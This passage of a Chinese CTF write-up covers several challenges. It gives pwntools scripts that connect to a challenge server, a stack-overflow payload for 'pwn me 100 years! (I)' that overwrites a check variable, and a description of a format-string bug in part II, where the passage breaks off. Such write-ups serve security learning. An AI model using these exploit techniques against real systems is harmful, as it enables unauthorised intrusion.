 大佬队友带我躺赢。。。。。+6

## 0x12 你大概需要一个带bar的mac

无设备引起不适。。。

过

## 0x13 math_easy

math.....easy?...... 过.......

## 0x14 hello_pwn

nc 题。。。。。

```
#coding=utf-8
from pwn import *
io=remote("139.129.76.65","50003")
io.interactive()
```

## 0x15 pwn me 100 years! (I)

checksec 看一下

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

没开Canary和PIE，

要满足两个条件

直接栈溢出就完事了

```
#coding=utf-8
from pwn import *
payload="yes\x00"+'a'*(0x10-0x4)+p64(0x66666666)
io=remote("139.129.76.65","50004")
io.sendafter("ready?\n",payload)
io.interactive()
```

## 0x16 pwn me 100 years! (II)

漏洞：栈上变量未初始化导致第一个函数里的buf就是第二个函数的&dest

然后可以用第二个函数的printf格式化漏洞
